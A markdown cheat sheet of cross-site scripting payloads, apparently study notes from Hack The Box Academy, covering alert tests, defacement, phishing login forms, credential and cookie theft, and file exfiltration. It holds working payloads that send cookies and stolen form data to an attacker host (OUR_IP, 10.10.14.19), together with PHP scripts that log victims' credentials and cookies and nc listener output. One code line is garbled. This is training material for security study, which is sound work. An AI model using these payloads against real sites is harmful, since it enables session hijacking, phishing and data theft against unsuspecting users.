

# **XSS Testing Payloads**

## Simple tester payload

```html
<script>alert(window.origin)</script>
```

## plaintext tester payload

```html
<plaintext>
```

## Pop-Up-Print-Dialog Payload

```html
<script>print()</script>
```

## Showing Cookie payload

```html
<script>alert(document.cookie)</script>
```

# Considerations - Reflected XSS

If the payload request method is GET, you can copy the full URL and open it, and you payload will be executed.

```html
http://94.237.60.154:39241/index.php?task=<script>alert(document.cookie)</script>
```

# DOM-Based XSS

## Considerations

if we add a input `test` item, we would notice that no HTTP requests are being made (Network-Developer Tools). We see that the input parameter in the URL is using a hashtag `#` for the item we added, which means that this is a client-side parameter that is completely processed on the browser.

Furthermore, if we look at the page source by hitting [`CTRL+U`], we will notice that our `test` string is nowhere to be found. This is because the JavaScript code is updating the page when we click the `Add` button, which is after the page source is retrieved by our browser,

## DOM Based-Example

```html

```

# **XSS Discovery**

```html
python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test" 
```

# XSS Payloads

[PayloadsAllTheThings/XSS Injection/README.md at master · swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md)

**Note**: XSS can be injected into any input in the HTML page, which is not exclusive to HTML input fields, but may also be in HTTP headers like the Cookie or User-Agent (i.e., when their values are displayed on the page).

# Defacing

## **Changing Background**

```html
<script>document.body.style.background = "#141d2b"</script>
```

## Set an image to the background

```html
<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>
```

## **Changing Page Title**

```html
<script>document.title = 'HackTheBox Academy'</script>
```

## **Changing Page Text**

```jsx
document.getElementById("todo").innerHTML = "New Text"
```

### Using JQuery

```jsx
$("#todo").html('New Text');
```

## Blank the website

```jsx
document.getElementsByTagName('body')[0].innerHTML = "New Text"Vidy
```

## Defacing the body element

**New Body Example**

```html
<center>
    <h1 style="color: white">Cyber Security Training</h1>
    <p style="color: white">by 
        
    </p>
</center>
```

**XSS Payload**

```jsx
<script>document.getElementsByTagName('body')[0].innerHTML = '<center><h1 style="color: white">Cyber Security Training</h1><p style="color: white">by  </p></center>'</script>
```

# Phishing

## **Login Form Injection**

### Basic Login Form

```jsx
<h3>Please login to continue</h3>
<form action=http://OUR_IP>
	<input type="username" name="username" placeholder="Username">
	<input type="password" name="password" placeholder="Password">
	<input type="submit" name="submit" value="Login">
</form>
```

### Basic Login Form prepared:

```jsx
<div>
<h3>Please login to continue</h3>
<input type="text" placeholder="Username">
<input type="text" placeholder="Password">
<input type="submit" value="Login">
<br><br>
</div>
```

### XSS Payload

```jsx
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
```

### Example:




If there's still a piece of the original HTML code left after our injected login form. it can be removed adding the HTML Comment.

```js
<PAYLOAD><!--
```

## Credential Stealing

```
nc -nvlp 80
listening on [any] 80 ...

connect to [10.10.16.64] from (UNKNOWN) [10.10.16.64] 41558
GET /?username=root&password=admin&submit=Login HTTP/1.1
Host: 10.10.16.64
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:130.0) Gecko/20100101 Firefox/130.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://10.129.201.162/
Upgrade-Insecure-Requests: 1
```

Despite this method works perfectly, it’s very suspicious.

### Creating a simple HTTP Server with PHP

The code below is a simple script that can handle the request, redirect the victim back to the same portal and save the credentials in a txt file. 

```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

Then, start the PHP server

```
vi index.php      #at this step we wrote our index.php file (code above)

sudo php -S 0.0.0.0:80
PHP 7.4.15 Development Server (http://0.0.0.0:80) started
```

# Session Hijacking (Cookie Stealing)

if the parameter is vulnerable, we can receive a request in /username parameter

```
<script src=http://OUR_IP/fullname></script> #this goes inside the full-name field
<script src=http://OUR_IP/username></script> #this goes inside the username field
```

if that field is vulnerable, we can test the followings payloads to check if works.

```html
<script src=http://OUR_IP></script>
'><script src=http://OUR_IP></script>
"><script src=http://OUR_IP></script>
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script><script>$.getScript("http://OUR_IP")</script>
```

## **Session Hijacking Cookie’s grabbing**

Write one of the following payloads into script.js file

```jsx
document.location='http://OUR_IP/index.php?c='+document.cookie;
new Image().src='http://OUR_IP/index.php?c='+document.cookie;
```

Inject the working payload found in the previous step and add script.js

```
<script src=http://OUR_IP/script.js></script>
```

That payload will call the index.php file into webserver’s root:

```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

Now, we wait for the victim to visit the vulnerable page and view our XSS payload. Once they do, we will get two requests on our server, one for `script.js`, which in turn will make another request with the cookie value:

```
10.10.10.10:52798 [200]: /script.js
10.10.10.10:52799 [200]: /index.php?c=cookie=f904f93c949d19d870911bf8b05fe7b2
```

# XSS Pillaging

```powershell
<script>
fetch("http://localhost:3000/administrator/Employee-management/raw/branch/main/README.md")
  .then(response => response.text())
  .then(data => {
    fetch("http://10.10.14.19/?file_content=" + encodeURIComponent(data));
  });
</script>

```

# XSS Pillaging (POST Request)

```bash
<a href='javascript:eval("fetch(\"[http://localhost:3000/administrator/Employee-management/raw/branch/main/README.md\\](http://localhost:3000/administrator/Employee-management/raw/branch/main/README.md%5C%5C)").then(response => response.text()).then(data => {fetch(\"[http://10.10.14.19/\\](http://10.10.14.19/%5C%5C)", { method: \"POST\", headers: { \"Content-Type\": \"application/x-www-form-urlencoded\" }, body: \"file_content=\" + encodeURIComponent(data) });})")'>XSS test</a>
```
